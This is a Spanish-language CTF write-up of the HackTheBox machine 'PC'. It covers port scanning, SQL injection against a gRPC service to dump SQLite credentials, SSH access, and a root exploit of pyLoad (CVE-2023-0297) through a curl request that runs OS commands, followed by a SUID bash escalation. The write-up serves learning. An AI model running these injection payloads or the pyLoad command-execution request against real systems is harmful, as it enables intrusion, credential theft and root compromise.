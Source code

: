 ```yaml
---
layout: single
title: "HackTheBox Writeup — PC"
categories: writeups
header:
    image: /assets/images/writeups/pc/cabecera.webp
---
```


Hola a todos soy Puchy y este será mi primer writeup espero que de muchos sobre un ejercicio CTF, en este caso de la máquina *PC* de [Hack the Box](https://app.hackthebox.com/home), para este tipo de problemas intento seguir siempre una misma metodología que se irá viendo a lo largo de este ejercicio en la separación de los apartados. Espero que al que este leyendo esto le sea de utilidad, le guste y aprenda algo.

# 1. Enumeración

Lo primero por lo que empezamos tras probar que tenemos conectividad con el servidor es hacer un reconocimiento de puertos a la máquina víctima para ello hago dos barridos, un escaneo rápido que me muestre todos los puertos abiertos y uno más exhaustivo para averiguar software o versiones de esos puertos.

**Escaneo rápido:**
*sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.11.214 -oN allPorts.nmap*
```ruby
# Nmap 7.94 scan initiated Wed Sep  6 12:07:55 2023 as: nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allPorts.nmap 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up, received user-set (0.062s latency).
Scanned at 2023-09-06 12:07:55 CEST for 26s
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
50051/tcp open  unknown syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Sep  6 12:08:21 2023 -- 1 IP address (1 host up) scanned in 26.61 seconds
```

**Escaneo de versiones:**
*nmap -p22,50051 -sCV 10.10.11.214 -oN versionPorts.nmap*
```ruby
# Nmap 7.94 scan initiated Wed Sep  6 12:09:40 2023 as: nmap -p22,50051 -Pn -sCV -oN versionPorts.nmap 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=9/6%Time=64F84FF7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06
SF:\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GenericL
SF:ines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetReq
SF:uest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPOp
SF:tions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSPR
SF:equest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPCC
SF:heck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVer
SF:sionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\x
SF:ff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0"
SF:)%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\
SF:?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0
SF:\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\
SF:xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08
SF:\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  6 12:10:07 2023 -- 1 IP address (1 host up) scanned in 27.66 seconds
```
Esta vez estamos un caso un tanto especial ya que los puertos abiertos son el típico de *ssh* y uno muy extraño como es el 50051, que tras una larga búsquedad en Internet podemos averiguar que es el puerto por defecto de [gRPC](https://grpc.io/), el cual es un protocolo que permite la comunicación eficiente entre aplicaciones.

# 2. Reconocimiento de vulnerabilidades

Usando la herramienta [grpcui](https://github.com/fullstorydev/grpcui) con el comando `./grpcui --plaintext 10.10.11.214:50051` esta actúa como proxy y te permite hacer peticiones de manera gráfica al servidor.

![image-center](/assets/images/writeups/pc/grpcui.png){: .align-center}

Básicamente en la aplicación permite crear usuarios, loguearse y pedir información qué solo responde con *Will update soon*; si se prueba con *admin:admin* permite loguearse. Los token que da tienen el formato *b'token_de_la_cabecera'* por lo que a la hora de añadirlo en *getInfo* de cabecera hay que hacerlo sin la *b* y sin las comillas. Tras probar varias vulnerabilidades comprobé que el campo *id* en la función `getInfo` parecía ser vulnerable a una SQL injection, ya que al añafir al final `' OR 1=1 -- -` no daba ningún tipo de error.

# 3. Explotando vulnerabilidades

Tras probar unas cuantas inyecciones distitas para hallar que tipo de base de datos del que se trataba llegué a la conclusión de que era una *SQLite* gracias a esta inyección:

```sql
<id>' UNION SELECT 1 FROM sqlite_master--
```

Una vez que sabemos que existe esta tabla podemos obtener el nombre de las tablas que hay con la inyección `<id>' UNION SELECT tbl_name FROM sqlite_master--`, de la cual obtenemos que existe la tabla `accounts`. Para obtener los campos de esta tabla podemos usar la siguiente inyección `<id>' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='accounts'--` lo que nos da como resuldato lo siguiente:

```json
{
  "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
}
```

Gracias a esto sabemos que la tabla tiene dos campos el *username* y *password*. Para saber el número de usuarios que hay en el sistema podemos hacer la consulta con `count(*)` y podemos ver que hay dos usuarios registrados. Añadiendo en la consulta el parámetro *OFFSET* podemos ir uno a uno viendo el nombre y contraseña de cada usuario, la inyección sería la siguiente:

```sql
<id>' UNION SELECT username FROM accounts LIMIT 1 OFFSET 1 --
```

Con esto obtenemos que existe usuario se llama *sau* y que su contraseña es *HereIsYourPassWord1431*, por lo que procedí a probar estos credenciales para el servicio *ssh* y así se obtenemos una conexión con la máquina y la flag de usuario.

# 4. Escalada de privilegios

Para escalar privilegios suelo empezar por mirar versiones, comandos de posible ejecución sudo o bits SUID, pero nada de eso estaba disponible. Pero al revisar los puertos internos que estan en esucha con el comando `netstat -tulpn` vemos que hay un servicio no listado eschuchando en el puerto 8000.

```ruby
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```


Por el número puerto podríamos intuir que es un servicio web para hacer esto podemos realizar por forwarding con ssh para poderla ver correctamente desde mi navegador, esto lo haremos con este comando `ssh -L 8000:localhost:8000 sau@10.10.11.214` en este se indica que quiero que a través del puerto 8000 de mi equipo quiero conectarme a través de esa conexión ssh al puerto 8000 del otro equipo, y encuentro esta página.

![image-center](/assets/images/writeups/pc/pyload.png){: .align-center}

Con una búsqueda rápida se ve que seguramente sea vulnerable al [CVE-2023-0297](https://nvd.nist.gov/vuln/detail/CVE-2023-0297) con el que con este [exploit](https://www.exploit-db.com/exploits/51532) unicamente haciendo una petición HTTP tenemos ejecución remota de comandos como root. Aquí muestro una prueba con el comando curl de como se crearía el archivo *prueba* en `/tmp`.

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/prueba\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://localhost:8000/flash/addcrypted2'
```
Como no me daba respuesta la reverse shell, lo hice de una manera más simple dandole permisos SUID a la bash.

![image-center](/assets/images/writeups/pc/suid-bash.png){: .align-center}

Y con esto ya podemos leer la flag del directorio `/root` y la máquina estaría resuelta!!!

Como vemos se trata de una máquina muy interesante y un poco distinta al tratarse de un protocolo tan poco conocido que al principio puede desconcertar un poco. Sin más un saludo, gracias por leerme y a seguir aprendiendo.


